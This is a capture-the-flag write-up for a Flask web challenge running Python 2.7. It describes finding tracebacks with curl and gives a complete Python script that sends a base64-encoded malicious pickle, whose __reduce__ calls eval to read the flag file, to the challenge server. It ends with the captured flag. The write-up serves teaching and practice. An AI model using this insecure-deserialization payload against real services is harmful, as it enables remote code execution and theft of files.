 This is a web challange so I connected to the web site and the first thing that I checked was the sources of the site. But there was nothing. I saw in the networking tab that it was making a request so I made a request using **curl -X POST http://ip:port > a.html** and I saved the output as a html to have a nice format. I gon ahead an opened it and I got soething. There were some tracebacks and the fact that this web site is powered by flask.

![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/rundown/images/1.png?raw=true)

We also found that the site was running python 2.7 and we had a small portion of the main 

![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/rundown/images/2.png?raw=true)

There we can see that our payload can not contain spaces. This will get out test harder
So I created this scirpt in order to send a valid payload

```
import pickle
import base64
import os
import string
import requests
import time

class Exploit(object):
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))

def sendPayload(p):
	newp = base64.urlsafe_b64encode(p).decode()
	headers = {'Content-Type': 'application/yakoo'}
	r = requests.post("http://35.242.253.155:30788/",headers=headers,data=newp)
	return r.text


payload_dec = pickle.dumps(Exploit(), protocol=2)
print(sendPayload(payload_dec))
```

I want to set the inner_payload to **eval(open(flag), 'r').read())** and I got a big output but at the end of it I got **SyntaxError: ('invalid syntax', ('<string>', 1, 4, 'ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}'))** here is the flag **ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}**
